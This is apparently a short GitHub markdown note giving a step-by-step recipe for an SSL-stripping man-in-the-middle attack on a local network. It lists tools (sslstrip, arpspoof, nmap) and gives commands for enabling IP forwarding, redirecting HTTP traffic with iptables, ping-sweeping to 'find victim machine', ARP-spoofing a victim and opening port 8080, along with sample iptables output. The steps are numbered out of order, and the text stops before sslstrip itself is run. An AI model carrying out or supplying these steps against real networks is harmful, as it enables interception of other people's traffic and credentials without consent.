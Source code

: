 ## ssl striping https to http (mitm)  
### this attack requires you to be on the same network.  
*tools needed*  
1. sslstrip  
2. arpspoof  
3. nmap  

### steps
1. `echo 1 > /proc/sys/net/ipv4/ip_forward`  its either 0 or 1.  we need it to be 1.  
2. `iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080`  
3. verify -- `iptables -t nat -L PREROUTING`  

*before*
```
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination 
```
**after**
```
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         
REDIRECT   tcp  --  anywhere             anywhere             tcp dpt:http redir ports 8080
```
#### find victim machine host  
4. `nmap -n -sn 10.0.0.0/8 -vv`  scan local network  ping sweep  
5. `nmap -sP 192.168.2.1/24` or  `nmap $1 -n -sP | grep report | awk '{print $5}'` or `arp -a -n` finds all live hosts on network  
6. `arpspoof  -i wlan0 -t 10.0.0.1 -r 10.0.0.3<victim machine>`  
open ports if necessary  
8. check - `iptables -L INPUT`  
should look like this  
```
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:http-alt
```
7. `iptables -I INPUT 1 -p tcp --dport 8080 -j ACCEPT`  